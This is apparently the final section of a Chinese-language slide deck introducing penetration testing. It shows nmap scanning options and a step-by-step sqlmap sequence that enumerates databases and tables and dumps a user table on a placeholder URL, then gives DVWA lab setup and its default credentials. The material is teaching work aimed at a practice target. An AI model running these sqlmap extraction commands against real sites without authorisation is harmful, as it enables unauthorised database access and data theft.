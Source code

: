 ```bash
nmap <IP>
nmap -O <IP>  # 作業系統偵測
nmap -sV <IP>  # 服務和版本偵測
nmap -sC <IP>  # 腳本掃描
nmap -A <IP>  # 包含前三者
```

---
transition: slide-up
layout: tty-middle
---

### sqlmap Example

```bash
sqlmap -u "<目標網址>" [選項]
```

```bash
sqlmap -u "http://example.com/article.php?id=10"
```

一旦發現有 SQL 漏洞，你還可以訪問資料庫名稱、更甚至資料表的資料

```bash
sqlmap -u "http://example.com/article.php?id=10" --dbs
sqlmap -u "http://example.com/article.php?id=10" -D usersdb --tables
sqlmap -u "http://example.com/article.php?id=10" -D usersdb -T user_info --columns
sqlmap -u "http://example.com/article.php?id=10" -D usersdb -T user_info --dump
```
---
transition: slide-up
layout: tty-middle
---

### DVWA

Damn Vulnerable Web Application

安裝教學（可以使用 Docker 或 [自架在系統上](https://hackmd.io/@nfkx8qh9Stak7zRXELQ7mQ/SJLxye6sgx)）

網頁登入帳號密碼：

```
admin
```
```
password
```

---
hideInToc: true
transition: slide-up
layout: tty-middle
---

## 感謝各位參與

以上簡報內容有部分約 10% 的 ChatGPT 提供資訊，若有誤請麻煩告知我

Email: <a href="mailto:hi@ttymayor.com?subject=【回饋】">hi@ttymayor.com</a>
